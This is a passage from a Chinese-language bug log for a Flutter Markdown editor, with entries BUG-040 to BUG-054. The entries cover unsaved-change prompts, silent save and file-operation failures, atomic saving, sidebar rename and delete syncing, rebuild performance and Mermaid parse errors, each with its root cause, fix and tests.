| 根因分析 | 两条退出路径各写各的。`onWindowClose` 那条做了完整的收尾，菜单那条只有一句 `exit(0)` |
| 修复方案 | 菜单改为 `windowManager.close()`。窗口已经设了 `setPreventClose(true)`，所以这一句会走到与 ✕ **同一个** `onWindowClose` 处理器 |
| 与本会话主线的关系 | 又一次「同一件事有两条路径，其中一条没跟上」 |
| 涉及文件 | `lib/ui/widgets/app_menu_bar.dart` |
| 验证方式 | 本机 `dart analyze --fatal-infos lib` 通过；确认 `dart:io` 仍有 21 处使用，不会变成多余导入 |

---

### BUG-041 命令面板的「保存」对新建文档静默失效，「新建」不本地化

| 字段 | 内容 |
|------|------|
| 发现日期 | 2026-08-28 |
| 优先级 | P1 |
| 状态 | 已修复 |
| 怎么发现的 | BUG-040 之后不再等着偶遇，改为**系统扫**「同一个动作在菜单、命令面板、快捷键三处是否走同一段代码」 |
| 现象一（保存，P1） | 菜单的保存在文档还没有路径时会转到「另存为」对话框；命令面板的保存写的是 `if (activeTab.filePath == null) return;` —— **静默什么都不做**。新建文档 → 打字 → 面板选「保存」→ 没有对话框、没有提示，用户以为存过了 |
| 现象二（新建，P3） | 菜单的新建会传本地化的「未命名」（`_newFile` 的注释专门解释了为什么必须在这里传：`TabInfo` 是模型，够不到 l10n）；命令面板那份副本没传，于是从面板新建的文档在任何语言下都叫英文的 "Untitled" |
| 漂移的确切形状 | 三条路径里，**快捷键那条早就在调 `AppMenuBar.saveFile`**，菜单自然也是；只有命令面板自己抄了一份，然后没跟上。这解释了为什么它偏偏漏掉了「没有路径就转另存为」这个分支 |
| 修复方案 | `_newFile` 改为公开的 `AppMenuBar.newFile`，命令面板的两条命令都改为调用 `AppMenuBar` 的实现，删掉 `home_screen` 里那份 `_saveCurrentFile` 副本 |
| 涉及文件 | `lib/ui/widgets/app_menu_bar.dart`、`lib/ui/screens/home_screen.dart` |
| 验证方式 | 本机 `dart analyze --fatal-infos lib` 通过；确认删除后全仓无 `_saveCurrentFile` / `_newFile` 残留引用 |
| 这类问题的通用查法（值得沿用） | 列出用户可触发的每个动作，看它在**菜单 / 命令面板 / 快捷键**三处分别指向哪个函数；只要有一处不是同一个函数名，就值得逐行比对。今天靠这个方法直接命中两处 |

---

### BUG-042 侧边栏的五种关闭方式都不问未保存的修改，直接丢弃

| 字段 | 内容 |
|------|------|
| 发现日期 | 2026-08-28 |
| 优先级 | **P0**（直接丢失用户尚未保存的工作） |
| 状态 | 已修复 |
| 怎么发现的 | 继续用 BUG-041 那个方法往外扫：把「关闭一个文件」这件事的所有入口列出来，看是不是都走同一段代码 |
| 现象 | 标签页上的关闭会弹「有未保存的修改」并可取消；**侧边栏的五个入口一个都不问**：<br>① 每行右侧的小 ✕<br>② 右键菜单的「关闭」<br>③ 关闭文件节点<br>④ 关闭文件夹（会把该目录下**所有**标签页一起关掉）<br>⑤ 右键菜单的「删除」<br>编辑到一半从侧边栏关掉，改动就没了，没有任何提示 |
| 根因分析 | 五处都直接调 `tabProvider.removeOpenedFile(path)`。这个方法的注释写着「Also close the tab for this file」—— 它确实会关标签页，但它是 provider，弹不了对话框，于是关得悄无声息。而标签页那条路走的是 `EditorTabBar.closeTab`，那里有完整的确认流程 |
| 最危险的是第 ④ 个 | 关一个文件夹会遍历该目录下所有标签页逐个关掉。多个未保存文档可以一次全丢 |
| 修复方案 | 新增 `_closeOpenedFile(path)`：有标签页且已修改时，先走 `EditorTabBar.closeTab`（与标签页完全一致的确认流程）；用户取消则标签页还在，此时侧边栏条目也不移除。前四个入口全部改走它 |
| 关闭文件夹的额外处理 | 逐个 `await`，而不是并发 —— 否则多个确认对话框会叠在一起 |
| 「删除」为什么保持原样 | 用户刚刚确认过要删这个文件，再问一次「要不要保存对这个已被删除的文件的修改」是很奇怪的。保持直接关闭，并在代码里注明这是有意的 |
| 涉及文件 | `lib/ui/widgets/side_bar.dart` |
| 验证方式 | 本机 `dart analyze --fatal-infos lib test` 通过 —— 它当场抓到两处：改成 `await` 后那个 `onPressed` 回调忘了标 `async`，以及一处多余的 `this.` |
| 与 BUG-040 / BUG-041 的关系 | 同一个方法在半小时内查出三处，全是「同一件事有多条路径、其中一些没跟上」。这三处合计 **7 个入口**会丢用户数据 |

---

### BUG-043 从关闭确认里保存新文档，标签页不绑到新路径也不入最近打开

| 字段 | 内容 |
|------|------|
| 发现日期 | 2026-08-28 |
| 优先级 | P2 |
| 状态 | 已修复 |
| 怎么发现的 | 把同一个查法用到「保存」这件事上：`grep saveDocument(`，看每个写文件的地方是否做了同样的收尾 |
| 现象 | 新建文档改了内容后关闭 → 选「保存」→ 弹出保存位置 → 写盘成功，但标签页仍是「未命名」、`filePath` 仍为空，这个路径也不会出现在「最近打开」里 |
| 根因分析 | 「没有路径就弹保存位置」这个分支存在于**两处**：`AppMenuBar._saveFileAs` 和 `EditorTabBar.saveTab`。前者此前修过（代码注释里还留着当时的说明：*an untitled document stayed untitled*），**后者一模一样的分支没跟上** |
| 为什么长期没被发现 | `saveTab` 的三个调用点（关标签页、关窗口、批量关闭）在保存之后都会把标签页关掉，所以「标签页没绑到新路径」当场看不出来。真正露出来的是**最近打开列表里少了这个文件** |
| 修复方案 | 写盘成功后补上与菜单版本相同的两步：`updateTabPath` 重绑、`addRecentFile` 记录。加了 `tab.filePath != path` 的判断，普通保存（路径没变）不会重复做 |
| 涉及文件 | `lib/ui/widgets/editor_tab_bar.dart` |
| 验证方式 | 本机 `dart analyze --fatal-infos lib` 通过；确认 `path` 与 `settings_provider` 两个导入本就存在 |
| 这一轮方法的小结 | 「列出同一件事的所有入口，逐个比对」这一个方法，今天连续查出 BUG-040 ~ BUG-043 四处。前三处丢用户数据（合计 7 个入口），这一处丢的是状态。**修过的 bug 如果存在第二份实现，那份多半没被一起修** —— 这比「写两遍然后漂移」更隐蔽，因为第一份看起来是对的、还带着解释性注释 |

---

### BUG-044 从侧边栏重命名/删除文件，打开着的标签页不跟着走

| 字段 | 内容 |
|------|------|
| 发现日期 | 2026-08-28 |
| 优先级 | **P0**（重命名后再保存会把旧文件重新写出来） |
| 状态 | 已修复 |
| 怎么发现的 | BUG-043 之后专门去找「同一件事的第二份实现是否也修过」，重命名正好是这种形状 |
| 现象一（重命名，P0） | 文件在标签页里打开着，从**侧边栏右键重命名** → 磁盘上改名了、文件树刷新了，但**标签页仍指向旧路径**。此时按 Ctrl+S，会把旧文件名重新写出来 —— 磁盘上多出一个本该消失的文件，而改名后的那个不含最新内容 |
| 现象二（删除，P1） | 侧边栏右键删除文件 → 文件没了，标签页还开着、指向一个不存在的路径 |
| 两处都存在第二份实现 | **重命名**：菜单的 `_renameFile` 改完名会调 `updateTabPath` 重绑，侧边栏的只调 `renameNode`（只碰文件系统和文件树）。<br>**删除**：侧边栏「已打开文件」那个右键菜单的删除会调 `removeOpenedFile` 关掉标签页，而**文件树**那个右键菜单的删除不会。两个删除入口互相矛盾 |
| 修复方案 | 在 `TabNotifier` 上加两个按路径工作的方法，三处入口全部改走它们：<br>`pathRenamed(oldPath, newPath)` —— 标签页与侧边栏条目一起跟着走；<br>`pathDeleted(path)` —— 一并清掉，并把激活项挪到仍然存在的标签页上 |
| 文件夹也要处理 | 重命名或删除的可能是**文件夹**，其下所有打开的文件都要跟着走。两个方法都按路径前缀匹配 |
| 一个必须写对的边界 | 前缀匹配要用 `oldPath + 分隔符`，否则删 `/docs` 会连 `/docs2/a.md` 一起误伤。测试里专门有这一条 |
| 菜单那条也一并收敛 | `_renameFile` 原来按标签页 id 调 `updateTabPath`，现在改调同一个 `pathRenamed`，两条路不会再各走各的 |
| 涉及文件 | `lib/providers/tab_provider.dart`、`lib/ui/widgets/side_bar.dart`、`lib/ui/widgets/app_menu_bar.dart`、`test/providers/tab_path_test.dart`（新增） |
| 验证方式 | 本机 `dart analyze --fatal-infos lib test` 通过；本机 `flutter test` 新增文件 **9 条全过**，含「同名前缀的兄弟目录不被误伤」「文件夹重命名带走其下所有文件」「激活项转移」三条关键边界 |

---

### BUG-045 「消除」更新提示后，下次启动它又回来

| 字段 | 内容 |
|------|------|
| 发现日期 | 2026-08-28 |
| 优先级 | P2 |
| 状态 | 已修复 |
| 怎么发现的 | 换一个面继续扫：把 `AppConfig` 的每个字段拿出来，检查它**是否有代码在读**、以及**用户是否有办法改**。两个方向各查出一处 |
| 现象 | 状态栏的更新提示按 ✕ 之后只在本次会话里消失，下次启动又出现，反复多少次都一样 |
| 根因分析 | `skipVersion` 这个字段被写进配置、能序列化、`copyWith` 里也有，`home_screen` 判断要不要显示提示时也**读**了它（`update.version != config.skipVersion`）—— 但**全项目没有任何地方写入它**。也就是说那个判断永远成立，「跳过此版本」只实现了一半 |
| 修复方案 | ✕ 除了 `dismiss()` 之外，一并把当前版本记进 `skipVersion` |
| 同一轮扫描的另一处（见 FEAT-013） | 反方向：`fontFamily` 被读取并应用到编辑器正文，但设置页只有「代码字体」一行，正文字体没有入口 |
| 扫描的完整结果 | `AppConfig` 共 **32 个字段**：全部都有代码在读（唯一报出的 `defaultValue` 是我正则的误报，那是 `_parseDouble` 的参数名）；界面可改的 25 个；剩下 7 个里 6 个是程序自己维护的（窗口几何、最大化、侧边栏文件列表），只有 `fontFamily` 是真缺口 |
| 涉及文件 | `lib/ui/widgets/status_bar.dart` |
| 验证方式 | 本机 `dart analyze --fatal-infos lib` 通过；确认 `settings_provider` 导入本就存在 |

---

### BUG-046 光标每移动一格，整个预览的所有块都重建一遍

| 字段 | 内容 |
|------|------|
| 发现日期 | 2026-08-28 |
| 优先级 | **P1**（分屏模式下每次按键都付这个代价） |
| 状态 | 已修复 |
| 怎么发现的 | 把 BUG-045 那个方法（**字段是否被读 / 是否被写**）从 `AppConfig` 推广到 provider 的状态类。第一个信号是 `EditorState.selectedText` **被写但无人读**，顺着它查写入时机，牵出了更大的问题 |
| 现象 | 源码窗格里光标每移动一格（方向键、点击、打字），都会触发 `editorProvider` 的**两次**状态更新；而 `markdown_renderer` 监听的是**整个** `editorProvider`。分屏模式下，这意味着**每一次按键都会重建预览里已渲染的全部块** —— 而预览本身的设计就是「每帧重建至今渲染过的所有块」 |
| 根因链条 | ① 光标变化 → `updateCursor` 写入状态；<br>② 同一次回调里 `updateSelection` 再写一次 —— 而 `selectedText` **全项目没有任何读取方**（渲染器里那个同名变量是局部的）；<br>③ `markdown_renderer.dart` 写的是 `ref.watch(editorProvider)`，注释说「为了搜索状态变化时重建」，但它同时也订阅了光标、选区、滚动等一切变化 |
| 修复方案 | ① 把渲染器的监听收窄到它真正需要的**预览搜索 5 个字段**（用 record 形式的 `select`）；<br>② 菜单栏同样收窄到 `canUndo` / `canRedo`（原先整体监听，光标一动就重建整条菜单栏）；<br>③ 删掉 `selectedText` 字段与 `updateSelection` —— 写了从来没人读，每次选区变化白付一次状态更新 |
| 状态栏为什么不动 | 它读的就是 `cursorLine` / `cursorCol`，本来就该在光标移动时重建 |
| 与 v1.4.0 早先那笔的关系 | `app.dart` 之前修过同一类问题（把 `settingsProvider` 的整体监听收窄），当时的注释写着「任何设置写入都会重建整个 app」。**同一个坑在 `editorProvider` 上又踩了一次** |
| 涉及文件 | `lib/ui/editor/markdown_renderer.dart`、`lib/ui/widgets/app_menu_bar.dart`、`lib/providers/editor_provider.dart`、`lib/ui/editor/source_editor.dart` |
| 验证方式 | 本机 `dart analyze --fatal-infos lib test` 通过；本机 `flutter test test/ui/editor/ test/providers/` **314 条全过** |
| 待用户确认 | 这条改的是「打字/移动光标时的流畅度」，本机没有 GUI 无法直接测量。分屏模式下的手感变化需要在 Windows 上体感确认 |

---

### BUG-047 每次按键都重建整棵文件树

| 字段 | 内容 |
|------|------|
| 发现日期 | 2026-08-28 |
| 优先级 | P1 |
| 状态 | 已修复 |
| 怎么发现的 | 修完 BUG-046 之后，把「整体监听 provider」这个模式在全项目扫了一遍 —— 它已经在 `settingsProvider`（v1.4.0 早先修过）和 `editorProvider`（BUG-046）上各踩过一次，值得看看还有没有第三处 |
| 现象 | 文档内容存在 `TabState` 里，所以**打字的每一下**都会更新 `tabProvider`。而侧边栏的 `_buildFileTree` 与 `_buildFileNode` 都在整体监听它 —— 于是每敲一个字，整棵文件树（含每个节点）重建一次 |
| 侧边栏其实只需要什么 | 通读下来只用到三样：`openedFiles` 列表、每个标签页的 `filePath` 与 `id`、以及 `activeTabId`。**跟内容和修改标记完全无关** |
| 为什么 `select` 能奏效 | `TabState.copyWith` 在 `openedFiles` 未变时复用**同一个 list 实例**，所以 `select((s) => s.openedFiles)` 在打字时稳定不触发。标签页那部分改为投影成一个 `String`（`select` 只按 `==` 比较，每次新建的 `Set`/`List` 永远不相等，字符串才能比出「没变」） |
| 修复方案 | 抽出两个投影 `SideBar.openFilesKey(state)` 与 `SideBar.activePath(state)`，三处监听全部改为窄订阅；`_buildExternalFileItem` 的入参从整个 `TabState` 换成 `activePath` |
| 一个必须写对的边界 | 拼 key 时字段之间要有分隔符，否则 `/ab`+`/c` 与 `/a`+`/bc` 会拼成同一个字符串，文件树该刷新时不刷新。测试里专门有这一条 |
| 涉及文件 | `lib/ui/widgets/side_bar.dart`、`test/ui/widgets/side_bar_rebuild_test.dart`（新增） |
| 验证方式 | 本机 `dart analyze --fatal-infos lib` 通过；新增 **10 条测试**（打字不变、开/关/切换/重命名都变、无分隔符会撞的反例、`activePath` 的三种取值）本机全过；`test/ui/` 与 `test/providers/` 合计 **339 条全过** |
| 这一模式的第三次 | `settingsProvider` → `editorProvider` → `tabProvider`。三次都是「组件需要状态里的一小部分，却订阅了整体」，而共享状态里恰好有个每次按键都变的字段 |
| 同一轮查完**确认没问题**的三处 | ① **`state` setter 覆写**：`TabNotifier` 每次状态变更都会重新同步一次监视集合（打字时每一下都走）。看着可疑，但早先量过：200 次「集合未变」的同步共 5.6 ms，约 **0.03 ms/次**。属于可忽略，**故意不动**。<br>② **字数统计**：有 300 ms 防抖，且只在内容真的变了才重算，状态栏那个整体监听是必要的（它读的就是光标位置）。<br>③ **分屏预览**：`split_editor` 有 300 ms 防抖并传入快照，打字不会让预览重新解析 —— 所以 BUG-046 修的是「光标移动时的无谓重建」，不是重解析 |
| 顺带复核用户点名的第三个问题 | 「打开时重复出现打开方式的选择」：代码里**已无任何地方显示该对话框**（只剩生成的 l10n 定义，早先扫描已记录为孤立键）。该设置现在只存在于设置页，由第二实例路径读取，与上游一致。**确认已解决** |

---

## BUG-048 — 侧边栏的新建 / 重命名 / 删除失败时毫无提示

**发现日期**：2026-08-28 　**优先级**：P1 　**状态**：已修复

### 现象

在侧边栏文件树上右键做任何文件操作，只要底层失败，**界面上没有任何反应**：对话框关闭，
文件没建出来 / 没改名 / 没删掉，也没有任何错误提示。用户只会觉得"点了没反应"。

触发条件都很日常：

- 新建时输入了 Windows 不接受的文件名（含 `\ / : * ? " < > |`，或 `CON`、`PRN` 这类保留名）
- 目标目录只读，或没有写权限
- 要删除的文件正被别的程序占用（Windows 上会直接 `ERROR_SHARING_VIOLATION`）
- 重命名的目标名已经存在

### 根因

侧边栏右键菜单里四个操作**全部是裸 `await`**，没有任何 try：

```dart
case 'new_file':
  await ref.read(fileProvider.notifier).createNode(p.join(parentDir, name));
case 'rename':
  await ref.read(fileProvider.notifier).renameNode(node.path, newPath);
case 'delete':
  await ref.read(fileProvider.notifier).deleteNode(node.path);
```

`createNode` / `renameNode` / `deleteNode` 底下就是 `File.create` / `rename` / `delete`，
失败会抛。而这些调用位于 `showMenu` 的异步回调里 —— **异步回调里未捕获的异常在 release
构建下是完全静默的**（走 zone 的错误处理，debug 下只打到控制台，release 下什么都不做）。
所以异常抛出 → 后面的语句被跳过 → 用户什么都看不到。

还有一处连带问题：重命名一旦失败，`pathRenamed` 因为异常被跳过 —— 这次是**碰巧对了**，
但它是靠异常传播实现的，而不是显式判断，任何人给它加个 try 就会变成错的。

### 与上游的对照

上游 MarkText 对侧边栏的**每一个**文件操作失败都弹通知，带上真实的错误信息：

```js
// packages/desktop/src/renderer/src/store/project.ts
window.electron.ipcRenderer.invoke('mt::fs-trash-item', pathname).catch((err) => {
  notice.notify({ title: 'Error while deleting', type: 'error',
                  message: err instanceof Error ? err.message : String(err) })
})
```

删除是 `Error while deleting`，粘贴是 `Error while pasting`，新建和重命名是
`Error in Side Bar`。本项目一个都没有 —— 这是实打实的上游缺口。

### 修复方案

在 `SideBar` 里加一个统一的包装，把失败报出来，并把"是否成功"返回给调用方：

```dart
Future<bool> _runFileOp(Future<void> Function() op) async {
  try {
    await op();
    return true;
  } catch (e) {
    if (!mounted) return false;
    final l10n = AppLocalizations.of(context)!;
    ScaffoldMessenger.of(context).showSnackBar(
      SnackBar(content: Text(l10n.fileOperationFailed('$e'))),
    );
    return false;
  }
}
```

五个文件操作（新建文件、新建文件夹、重命名、文件树删除、已打开文件删除）全部改走它。
返回值用来把后续的状态改动挡在失败之外——重命名失败就不再去移动标签页的路径，
删除失败就不再去关标签页：

```dart
final renamed = await _runFileOp(
    () => ref.read(fileProvider.notifier).renameNode(node.path, newPath));
if (!renamed) return;
ref.read(tabProvider.notifier).pathRenamed(node.path, newPath);
```

新增 l10n 键 `fileOperationFailed`（带 `{message}` 占位符），12 种语言全部补齐。

### 涉及文件

- `code/lib/ui/widgets/side_bar.dart` —— 新增 `_runFileOp`，五处调用改走它
- `code/lib/core/i18n/l10n/app_*.arb` —— 12 个文件新增 `fileOperationFailed`
- `code/test/ui/widgets/side_bar_file_ops_test.dart` —— 新增，4 条断言

---

## BUG-049 — 从「已打开文件」删除文件，下面的文件树不刷新

**发现日期**：2026-08-28 　**优先级**：P2 　**状态**：已修复

### 现象

侧边栏上半部是"已打开文件"列表，下半部是文件树。在**上半部**右键删除一个文件，
文件确实被删了、标签页也关了，但**下半部的文件树里那个文件还在**。点它会打开一个
已经不存在的文档。

### 根因

又是同一个动作两套实现。文件树的删除走 provider：

```dart
// 文件树右键菜单
await ref.read(fileProvider.notifier).deleteNode(node.path);
```

而"已打开文件"的删除自己动手：

```dart
// 已打开文件右键菜单
await File(file.filePath).delete();
ref.read(tabProvider.notifier).removeOpenedFile(file.filePath);
```

差别在 `deleteNode` 比 `File.delete()` 多做两件事：

```dart
Future<void> deleteNode(String path) async {
  await _fileService.deleteEntity(path);
  _expanded.removeWhere((e) => e == path || e.startsWith('$path/'));
  await _refreshTree();          // ← 这一步，直接删文件就没有
}
```

`_refreshTree()` 重读目录并更新 `state`，文件树才会重画。直接 `File.delete()` 绕过了它，
所以树上的那一项一直留着，直到有别的事情触发刷新（磁盘 watcher 事件、折叠展开某个目录）。

顺带还有两个小差别：`deleteEntity` 会先判断类型，目录走 `delete(recursive: true)`，
直接 `File.delete()` 删不了目录；以及 `_expanded` 里的陈旧路径不会被清掉。

### 修复方案

删掉那份自己动手的实现，并回 provider，和文件树用同一条路径：

```dart
if (!await _runFileOp(
    () => ref.read(fileProvider.notifier).deleteNode(file.filePath))) {
  return;
}
ref.read(tabProvider.notifier).pathDeleted(file.filePath);
```

标签页那边也从 `removeOpenedFile` 换成 `pathDeleted` —— 后者是前者的超集（同时按前缀
清理标签页和已打开列表），两条删除路径的收尾动作从此也一致了。

`_refreshTree()` 在没有打开文件夹时会直接 return，所以"只开了文件、没开文件夹"的场景
不受影响。

### 这是本轮第几次撞上同一个模式

第六次。前面是 BUG-040（菜单退出用 `exit(0)` 绕过未保存提示）、BUG-041（命令面板的保存
对新文档静默失效）、BUG-042（侧边栏五条关闭路径丢弃未保存改动）、BUG-043（`saveTab`
少了 `_saveFileAs` 已经补过的重绑定）、BUG-044（重命名/删除后标签页停在旧路径）。
**排查手段固定下来了：列出一个动作的所有入口，逐个确认它们最终落到同一个函数。**

### 涉及文件

- `code/lib/ui/widgets/side_bar.dart`
- `code/test/ui/widgets/side_bar_file_ops_test.dart`

---

## BUG-050 — 保存不是原子的，写到一半崩溃会毁掉用户的文档

**发现日期**：2026-08-28 　**优先级**：**P0** 　**状态**：已修复

### 现象

保存过程中如果进程被杀、磁盘写满、或者断电，用户的文档会**变成空文件或者半截内容**，
而且没有任何可以恢复的东西 —— 原文已经没了。

这不是假想。`writeAsBytes` 默认 `FileMode.write`，语义是**先把文件截断到 0 字节，
再往里写**。截断和写完之间的那个窗口里，磁盘上的文档就是空的。文件越大窗口越长。

### 根因

```dart
static Future<void> saveDocument(String path, String content, {...}) async {
  await File(path).writeAsBytes(encoding.encode(lineEnding.apply(content)));
}
```

一行，没有临时文件，没有 fsync，没有备份。

### 与上游的对照

上游 MarkText 的保存走 `write-file-atomic`，而且注释里挂着三个真实 issue 编号，
说明这些坑他们都踩过：

```ts
// packages/desktop/src/main/filesystem/index.ts
// write-file-atomic does not create parent directories; recreate a moved or
// deleted folder first so an (auto)save into it still succeeds (#3509).
...
// (#3786, #3828); a bare rename is only namespace-atomic, not data-durable.
// write-file-atomic also preserves the target's mode/owner, writes through a
// symlink to its target, and uses a unique temp name — all of which a plain
// temp+rename dropped.
await writeFileAtomic(pathname, content, options)
```

注意最后那段：**光是 temp + rename 还不够**。上游明确列了四件事，本次修复逐条对齐了三件。

### 修复方案

在文档旁边写一个临时文件，fsync 之后再换入：

```dart
final temp = File('$target.${pid}_${_saveCounter++}.mtsave');
final handle = await temp.open(mode: FileMode.writeOnly);
await handle.writeFrom(bytes);
await handle.flush();      // ← fsync：光 rename 只保证名字原子，数据可能还在页缓存里
await handle.close();
await _renameWithRetry(temp, target);
```

配套的四件事：

1. **fsync 后再 rename**。`rename` 只是目录项的原子替换。如果字节还在页缓存里就崩了，
   新名字指向的是一段空洞 —— 上游 #3786 / #3828 说的就是这个。
2. **父目录不存在就补建**。文档打开期间用户在别处把文件夹移走或删了，保存不该失败
   （上游 #3509）。
3. **穿过符号链接写目标文件**。直接对链接本身 rename 会把链接**替换成普通文件**，
   用户放在别处的真正文档就此和编辑器脱钩了。所以先 `resolveSymbolicLinks`。
4. **rename 失败要重试**。Windows 上杀毒软件例行会把刚写完的文件按住几十毫秒，
   rename 撞上共享冲突，下一次就好了。**没有这个重试，原子保存反而比原来那个截断写更不可靠。**
   退避 20ms / 60ms，共三次。

临时文件用 `pid` + 自增计数命名：分屏和自动保存可能在同一毫秒里各存一次，只靠 pid 会撞。
`listDirectory` 里把 `.mtsave` 过滤掉，免得保存的一两毫秒内它闪进侧边栏。

### 已知取舍：POSIX 文件权限

换入的是一个新建的临时文件，它的权限来自 umask（通常 0644），**不会继承原文件的权限**。
原来是 0600 的文档保存后会变成 0644。上游的 `write-file-atomic` 会保留 mode/owner，
但 `dart:io` 没有 chmod，要做到只能走 FFI 或者每次保存都起一个 `chmod` 进程。

权衡下来先不做：一边是「崩溃必定毁文档」，一边是「私密文档的权限从 0600 变 0644，
而且所在目录的权限仍然拦着」。前者严重得多。**这条记在这里，不是漏掉了。**

### 测试

`test/services/file_service_atomic_save_test.dart`，10 条。其中真正能区分新旧实现的
是硬链接那条：

```dart
File(path).writeAsStringSync('original');
await Process.run('ln', [path, alias]);       // 硬链接，共享 inode
await FileService.saveDocument(path, 'replaced');
expect(File(alias).readAsStringSync(), 'original');
```

硬链接共享 inode。要是保存是往原文件里写，别名也会看到新内容；它只看到旧内容，
说明文档是被整个换掉的 —— 而这正是「不可能出现半截文件」的原因。
已用脚本验证旧实现下这条断言会失败（别名读到 `replaced`）。

### 涉及文件

- `code/lib/services/file_service.dart`
- `code/test/services/file_service_atomic_save_test.dart` —— 新增

---

## BUG-051 — 侧边栏重命名文件夹必然失败

**发现日期**：2026-08-28 　**优先级**：P1 　**状态**：已修复

### 现象

在侧边栏文件树上右键一个**文件夹** → 重命名 → 输入新名字 → 确定，**文件夹的名字没变**。
在 BUG-048 修好之前，这个过程连一句提示都没有。重命名文件是正常的，只有文件夹不行。

### 根因

```dart
Future<void> renameFile(String oldPath, String newPath) async {
  await File(oldPath).rename(newPath);      // ← 目录会抛
}
```

Dart 的 `File.rename` 对目录直接拒绝。实测：

```
FileSystemException: Cannot rename file to '/tmp/probeOWPZIJ/renamed',
path = '/tmp/probeOWPZIJ/folder' (OS Error: Is a directory, errno = 21)
```

换成 `Directory(...).rename(...)` 就成功。同一个文件里的 `deleteEntity` 早就按类型分派了：

```dart
Future<void> deleteEntity(String path) async {
  final type = await FileSystemEntity.type(path);
  if (type == FileSystemEntityType.directory) {
    await Directory(path).delete(recursive: true);
  } else if (type == FileSystemEntityType.file) {
    await File(path).delete();
  }
}
```

**删除分派了，重命名没有。**又是"一个地方修对了，旁边那个没跟上"。

### 修复方案

`renameFile` 照 `deleteEntity` 的样子按类型分派；`moveFile` 原本是一份一模一样的拷贝，
改成直接转发到 `renameFile`，以后不会再出现两者行为不一致。

### 涉及文件

- `code/lib/services/file_service.dart`
- `code/test/services/file_service_atomic_save_test.dart`

---

## BUG-052 — 保存失败时一声不吭

**发现日期**：2026-08-28 　**优先级**：P1 　**状态**：已修复

### 现象

按 Ctrl+S 保存一个只读文件、或者一个正被别的程序独占打开的文件，**界面上没有任何反应**。
唯一的线索是标签页上那个「已修改」的圆点没有消失 —— 但没人会盯着那个圆点看，
用户只会以为存好了。

### 根因

三条保存路径的 catch 全是空的：

| 入口 | 位置 |
|---|---|
| 菜单「保存」/ Ctrl+S | `AppMenuBar.saveFile` |
| 菜单「另存为」 | `AppMenuBar._saveFileAs` |
| 关闭标签页时的「保存」 | `EditorTabBar.saveTab` |

```dart
} catch (_) {
  // Left marked as modified, so the dot in the tab bar and the close
  // confirmation both keep telling the truth about what is on disk.
  return;
}
```

注释本身没错 —— 保持 modified 状态确实是对的，未保存提示才不会说谎。**问题是只做了这一半。**
状态是诚实的，但用户看不见状态，他看见的是"我按了 Ctrl+S，然后什么都没发生"。

值得一提的是，这三处的 catch 都写了注释、看起来都像是"想清楚了才这么写的"，
所以之前几轮排查都从它们旁边走过去了。

### 修复方案

在 `app.dart` 里加一个共用的提示函数（`navigatorKey` 就在那儿，两个调用方也都已经
import 了它，不会产生循环依赖）：

```dart
void reportSaveFailure(Object error) {
  final context = navigatorKey.currentContext;
  if (context == null || !context.mounted) return;
  final l10n = AppLocalizations.of(context);
  ScaffoldMessenger.of(context).showSnackBar(
    SnackBar(content: Text(l10n == null
        ? 'Could not save the file: $error'
        : l10n.saveFailed('$error'))),
  );
}
```

三条路径各接一行 `reportSaveFailure(e)`，原有的"保持 modified / 不关闭标签页"的行为
一点没动。新增 l10n 键 `saveFailed`（带 `{message}` 占位符），12 种语言补齐 ——
和 BUG-048 的 `fileOperationFailed` 分开，因为保存失败值得一句明确的话。

### 涉及文件

- `code/lib/app.dart` —— 新增 `reportSaveFailure`
- `code/lib/ui/widgets/app_menu_bar.dart` —— 两处
- `code/lib/ui/widgets/editor_tab_bar.dart` —— 一处
- `code/lib/core/i18n/l10n/app_*.arb` —— 12 个文件新增 `saveFailed`

---

## BUG-053 — Mermaid 语法写错时画成一个空白框

**发现日期**：2026-08-28 　**优先级**：P1 　**状态**：已修复

### 现象

Mermaid 代码里只要有一处语法写错——一个箭头打漏、一个括号没闭合——图表就渲染成
**一个什么都没有的空白框**，没有任何提示。用户看到的是"图没出来"，自然会说
"mermaid 渲染有问题"。

最小复现：

```mermaid
graph TD
  A--->
```

表头 `graph TD` 认得出来，但 `A--->` 这条边没有终点，解析器读不出任何节点和边，
于是拿着一个空的图去画，画出一个空框。

### 根因

`parseWithData` 只在**完全认不出来**时返回 null（比如不认识的图表类型）。表头认得、
内容读不出来的情况，它返回的是一个**内容为空但非 null 的结果**，绕过了所有错误路径：

```dart
if (result == null) {
  throw Exception(parser.describeParseFailure(widget.code));   // ← 到不了这里
}
```

而 `describeParseFailure` 其实早就准备好了正确的话：
「Could not parse this flowchart. The header is recognised, so check the syntax below it.」
只是没有任何东西会去调用它。

### 与上游的对照

上游把代码交给 `mermaid.parse()` 校验，被拒绝就渲染成一个错误节点：

```ts
// packages/muya/e2e/tests/diagrams/mermaid.spec.ts
// A truncated edge (`A--->` with no target) is rejected by `mermaid.parse`,
// which the preview block catches and surfaces as an error node instead of
// throwing.
const INVALID_MERMAID = 'graph TD\n    A--->';
```

**用的正是同一个例子。**

### 修复方案

给 `MermaidParseResult` 加 `hasContent`，`parseWithData` 在结果没有任何内容时返回 null，
让已有的错误路径亮起来：

```dart
MermaidParseResult? parseWithData(String source) {
  final result = _parseWithData(source);
  return (result != null && result.hasContent) ? result : null;
}
```

`hasContent` 要照顾到 17 种类型专属载荷 —— 饼图、甘特、时间线这些**本来就没有
nodes/edges**，内容在各自的载荷里，只看 nodes/edges 会把它们全部误判成空。

顺带让 `describeParseFailure` 区分"只有表头"和"表头对但下面读不懂"，前者说
「has a header but no content」，不再让用户去查一段根本不存在的正文。

### 排查过程中差点得出的错误结论

第一版探针统计的是 `nodes.length` 和 `edges.length`，跑出来 **20 个已支持类型里
有 15 个"空图"**，看起来像是 mermaid 实现整体崩了。实际上饼图、甘特、时间线、
看板、雷达、xy、象限、桑基、块图、C4 这些类型的数据根本不在 nodes/edges 里。
改成检查类型专属载荷之后：**20 个类型全部解析出内容，一个不落**。

这条记在这里是因为它差点变成一份"mermaid 大面积损坏"的错误报告。

### 已确认的上游缺口（未实现，非本次修复范围）

mermaid 11 有四种图表类型本项目没有实现，它们会正确地显示
「Unrecognised diagram type」并列出支持的类型：`zenuml`、`packet-beta`、
`architecture-beta`、`treemap-beta`。

### 测试

`test/ui/editor/mermaid/mermaid_parser_test.dart` 新增 4 条，其中一条是守卫的守卫：
把 **19 种已实现类型各来一个样例**，逐个确认没有被新的空结果判定误伤。

### 涉及文件

- `code/lib/ui/editor/mermaid/parser/mermaid_parser.dart`
- `code/test/ui/editor/mermaid/mermaid_parser_test.dart`

---

## BUG-054 — Mermaid 的提示文案是硬编码英文，错误框在深色主题下刺眼

**发现日期**：2026-08-28 　**优先级**：P2 　**状态**：已修复

